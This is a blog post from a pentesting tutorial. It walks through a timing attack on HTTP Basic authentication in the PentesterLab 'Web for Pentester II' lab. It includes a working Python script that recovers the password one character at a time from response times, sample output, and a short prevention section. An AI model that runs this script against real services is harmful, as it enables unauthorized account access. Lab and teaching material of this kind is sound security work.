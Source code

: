 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: Simon
summary: Get the password of web authentication.
categories: Web_Penetration
tags: 
 - Web penetration
 - Authentication Timing Attack
---
```


## Background 
Non-constant string comparison time is a vulnerablity of web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](http://theimagehost.net/upload/a1a7047fe4a55636d6a11fd3cdc26dd4.png)
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are different types of auth requests, such as Basic, Digest, and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
"dXNlcm5hbWU6cGFzc3dvcmQ=" is the base64 code of "username:password". The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is "abcde". Comparing "abcde" with "ab123" and "abc123", the second one takes more time than the first one. The first one compares 3 characters, and stops at the third letter. The second one compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters one by one, by comparing the response time of the auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The format follows "Index password response_time". In the first loop, I sent requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test on next bit. To make the script more reliable and stable, it is better to be able to select each character manually, and even go back. It has to stop when it finds the correct password (getting response 200). 

### Script 
For this example, I used python to send requests and count time. Requests: HTTP for Humans is an amazing library for HTTP request. You can write extremely simple neat code to send requests with this library. time.time() can be used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the local time, including network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print '--------------------'
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
By knowing this vulnerability, you will be able to prevent people from attacking you through this way. You can either carefully compare every character, or have a constant response time.
